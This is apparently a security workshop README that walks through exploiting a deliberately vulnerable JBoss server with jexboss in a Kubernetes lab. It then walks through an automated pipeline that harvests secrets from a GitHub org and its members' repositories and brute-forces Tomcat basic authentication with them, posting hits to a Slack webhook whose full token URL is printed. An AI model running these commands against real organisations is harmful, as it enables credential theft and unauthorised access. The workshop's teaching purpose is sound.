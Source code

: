 # Section-4

## Table of Contents
<!-- TOC -->

- [Section-4](#section-4)
    - [Table of Contents](#table-of-contents)
    - [Overview](#overview)
    - [Stand up vulnerable and non-vulnerable JBOSS servers](#stand-up-vulnerable-and-non-vulnerable-jboss-servers)
    - [Stand up Attack Host with exploit tools](#stand-up-attack-host-with-exploit-tools)
    - [Using Attack Host to exploit](#using-attack-host-to-exploit)
    - [Destroying the environment](#destroying-the-environment)
    - [Switching context to minikube](#switching-context-to-minikube)
    - [Introducing Target, Attack Surface and Automated Testing Methodology](#introducing-target-attack-surface-and-automated-testing-methodology)

<!-- /TOC -->

## Overview
In this section, we will
1. Start a vulnerable and a non-vulnerable JBOSS server in our remote K8S cluster on GKE.
2. Start an attack host (with our exploit tools installed) in our remote K8S cluster on GKE.
3. Attack both the JBOSS servers from the attack host.
4. Destroy the JBOSS servers and the attack host.
5. Introduce the target, the attack surface exposed by that target and our automated testing methodology we will be using to attack that target.
6. Finally end the workshop by demo'ing the entire automation described above by issuing a single command from Slack using [Kubebot](https://github.com/anshumanbh/kubebot).


## Stand up vulnerable and non-vulnerable JBOSS servers
1. Finding a pre-built docker image
    * On your local machine type `docker search jboss`
    * We'll be using `tutum/jboss`
    * To grab the latest version type `docker pull tutum/jboss:latest`
    * To grab a vulnerable version for testing type `docker pull tutum/jboss:as6` The designation of `:as6` grabs JBOSS version 6 as referenced [here](https://hub.docker.com/r/tutum/jboss/)

2. Starting the servers
    * Let's start them up and expose the proper ports.  To do that, type the following commands:
        * `kubectl run jboss-latest --image=tutum/jboss:latest --port=8080`
        * `kubectl run vuln-jboss --image=tutum/jboss:as6 --port=8080`


## Stand up Attack Host with exploit tools
1. From the `attackhost` directory, type
    * `docker build -t attackhost .`
2. Start the attackhost deployment by typing - `kubectl apply -f attack-host.yaml`.


## Using Attack Host to exploit
1. Retrieve the name of the attackhost pod by running `kubectl get pods` and searching for the attackhost pod name.
2. SSH into the attackhost container by typing - `kubectl exec -it <pod-name> bash`.
3. Run `jexboss` by typing - `python jexboss.py -u <URL>` for both the vulnerable and non-vulnerable JBOSS servers.The URL can be found by navigating to the pods section, clicking on the pod and obtaining the ip address.  the URL will look something like this: `http://172.17.0.4:8080 `
4. Notice the different output and the ease of standing up sandboxed environments for security testing.
5. Exit out of the attack host by pressing `Ctrl+P+Q`.


## Destroying the environment
1. Delete all the deployments by typing - `kubectl delete deployments --all`
2. Delete all the pods by typing - `kubectl delete pods --all`


## Introducing Target, Attack Surface and Automated Testing Methodology
1. Domain:
    * Domain points to an Apache Tomcat server.
    * Domain has a github org with members.
2. We will scan all the repositories of this org and all the repositories of the org's members using the tool [git-all-secrets](https://github.com/anshumanbh/git-all-secrets). Results will be stored in a Google BigQuery table.
3. We will then run [wfuzz](https://github.com/xmendez/wfuzz) to do a focussed bruteforcing for Apache Tomcat endpoints on that domain. Results will be stored in a Google BigQuery table as well.
4. We will then use the secrets obtained from `git-all-secrets` and try to bruteforce the basic authentication mechanism of the Apache Tomcat endpoints obtained from `wfuzz`.
5. If there is a match, we will get back results in Slack via an incoming webhook.
6. Demo of doing all this auto-magically.

### Running locally
1. [Running git-all-secrets and wfuzz locally and converting the results to store in BigQuery](data-converter/README.md)
2. [Running wfuzz basic authentication bruteforcer combining the data from both the tools](wfuzz-basicauth-bruteforcer/README.md)

### Running on a local K8S cluster (Minikube)
Running the tools repo-supervisor and wfuzz
1. Replace the directory path `/path/where/gac/is/stored/` in the command below to the path where GAC credentials file is stored locally on your workstation. Replace the `PROJECTID` as well. Replace the `gacfilename` with the name of the GAC credentials file.

`docker run -it -v /path/where/gac/is/stored/:/tmp/data/ abhartiya/utils_bqps:v1 -project <PROJECTID> -gac /tmp/data/<gacfilename> -wfdataset wfuzzds -wftable wfuzz_tomcat_test -rsdataset reposupervisords -rstable reposupervisor_test`

The above command will mount the local directory where you stored your GAC credentials file to `/tmp/data` inside the container. Once, it does that, it will run the `abhartiya/utils_bqps:v1` container with the arguments - `-project defcon-workshop -gac /tmp/data/<gacfilename> -wfdataset wfuzzds -wftable wfuzz_tomcat_test -rsdataset reposupervisords -rstable reposupervisor_test`. Once the container runs, it will re-create the dataset and tables.

2. `kubectl get secrets` - Verify the secret `googlesecret` created earlier still exists.
3. `cd` back into the `section-4` directory.
4. Make sure the environment values in the `deployments/tools-bq-pod.yaml` deployment file are accurate.
5. Start the pods by typing `kubectl apply -f deployments/tools-bq-pod.yaml`.

Running the wfuzz basic authN bruteforcer
1. Make sure the environment values in the `deployments/tools-wfbrute-pod.yaml` deployment file are accurate.
2. Start the pod by typing `kubectl apply -f deployments/tools-wfbrute-pod.yaml`

### Cleanup
1. `kubectl delete pods --all`
2. `kubectl delete secrets --all`
3. Delete the BQ datasets and tables
    * `bq rm reposupervisords.reposupervisor_test`
    * `bq rm wfuzzds.wfuzz_tomcat_test`
    * `bq rm -r -f reposupervisords`
    * `bq rm -r -f wfuzzds`
4. `minikube delete`
5. Don't forget to shutdown your GCP project if you don't plan to use it anymore.


### Demo - Sending a request from Kubebot for a target company
1. Initiate a request from Slack by typing a command like `/runautomation wfuzzbasicauthbrute|defcon.kubebot.io`.
2. API server receives the request.
3. API server drops a message in the queue to start `wfuzzbasicauthbrute` tool.
4. The message is picked up by a subscription worker from the queue.
5. Subscription worker starts 2 GoRoutines:
    * First GoRoutine starts [gitallsecrets](https://github.com/anshumanbh/git-all-secrets) with the options `-token <> -org kubebot -toolName repo-supervisor -output /tmp/results/results.json`. As soon as this is finished, the results are uploaded to BigQuery in the table `reposupervisor_test` under the dataset `reposupervisords` by the help of a utility [converttobq](https://hub.docker.com/r/abhartiya/utils_converttobq/).
    * Second GoRoutine starts [wfuzz](https://github.com/anshumanbh/wfuzz) with the options `-w /data/SecLists/Discovery/Web_Content/tomcat.txt --hc 404,429,400 -o csv http://defcon.kubebot.io/FUZZ/ /tmp/results/results.csv`. As soon as this is finished, the results are uploaded to BigQuery in the table `wfuzz_tomcat_test` under the dataset `wfuzzds` by the help of a utility [converttobq](https://hub.docker.com/r/abhartiya/utils_converttobq/).
    * All the above jobs are performed inside Docker containers and they are destroyed once they are all completed.
6. After the tools finish running above, the subscription worker starts another GoRoutine:
    * This GoRoutine starts a utility [wfuzzbasicauthbrute](https://hub.docker.com/r/abhartiya/utils_wfuzzbasicauthbrute/) with the opttions `-target defcon.kubebot.io -slackHook https://hooks.slack.com/services/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`.
    * This utility basically fetches all the secrets obtained from the `reposupervisor_test` table and stores it in a file. It then fetches all the endpoints obtained from the table `wfuzz_tomcat_test`.
    * For each endpoint retrieved above, the utility does a bruteforce attack against the basic authentication mechanism with all the secrets retrieved above against the URL `http://TARGET/ENDPOINT`. This is done by using the tool [wfuzz](https://github.com/xmendez/wfuzz) with the options `./wfuzz.py -w <all-the-secrets-file> -o csv --basic "admin:FUZZ" --sc 200,403 http://TARGET/ENDPOINT`
    * Finally, for each response with a `200` or `403` status, indicating that the secret worked against that endpoint, the results are sent back to Slack via the incoming Slack webhook.
